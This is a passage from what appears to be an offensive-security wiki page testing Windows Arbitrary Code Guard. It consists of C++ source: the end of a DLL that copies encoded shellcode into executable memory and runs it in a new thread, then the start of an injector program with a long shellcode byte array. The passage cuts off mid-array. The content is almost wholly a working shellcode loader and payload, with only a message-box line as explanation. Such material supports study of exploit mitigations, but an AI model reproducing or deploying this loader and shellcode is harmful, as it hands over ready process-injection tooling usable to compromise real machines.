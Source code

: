 ```cpp
				"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
				"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
				"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
				"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
				"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
				"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
				"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
				"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
				"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
				"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

			PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
			WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
			CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
			MessageBoxA(NULL, "ACG not enabled - shellcode executed", "ACG not enabled - shellcode executed", 0);
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
    }
    return TRUE;
}


```
{% endtab %}

{% tab title="injector.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[]) {
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
```